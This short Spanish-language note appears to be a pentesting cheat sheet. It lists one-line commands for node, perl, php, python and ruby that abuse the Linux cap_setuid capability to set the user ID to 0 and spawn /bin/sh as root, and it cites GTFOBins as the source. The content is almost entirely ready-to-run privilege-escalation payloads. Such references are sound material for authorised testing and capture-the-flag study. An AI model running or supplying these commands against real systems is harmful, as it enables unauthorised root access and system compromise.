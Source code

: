 ## PLUS

Existen formas de aprovechar la capabilitie cap_setuid en diversos lenguajes de programas si estos los tuvieran:

```
si node tiene la capabilitie:

./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

si perl tiene la capabilitie:

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

si php tiene la capabilitie:

CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"

si python tiene la capabilitie:

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

si ruby tiene la capabilitie:

./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'

```

Ejecutando el comando segun el binario debera abrirse una terminal como el usuario Root.

Fuente: [https://gtfobins.github.io/](https://gtfobins.github.io/)